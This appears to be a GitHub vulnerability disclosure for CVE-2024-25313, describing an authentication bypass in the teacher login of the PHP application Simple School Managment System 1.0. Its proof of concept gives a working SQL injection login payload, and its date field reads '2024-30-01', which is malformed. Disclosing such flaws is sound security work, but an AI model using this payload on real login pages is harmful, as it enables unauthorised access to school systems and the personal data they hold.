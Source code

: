 # CVE-2024-25313 - Simple School Managment System - Authentication Bypass - 2 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - Authentication Bypass - 2 (Teacher Login)
+ **Date:** 2024-30-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25313

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/teacher_login.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 150225](https://github.com/tubakvgc/CVEs/assets/74067343/821e1d60-6653-4cba-b5dc-850cd93b6f0d)

![Ekran görüntüsü 2024-02-01 150417](https://github.com/tubakvgc/CVEs/assets/74067343/226fec38-d74c-48d6-8b39-3fdfd0326e0a)
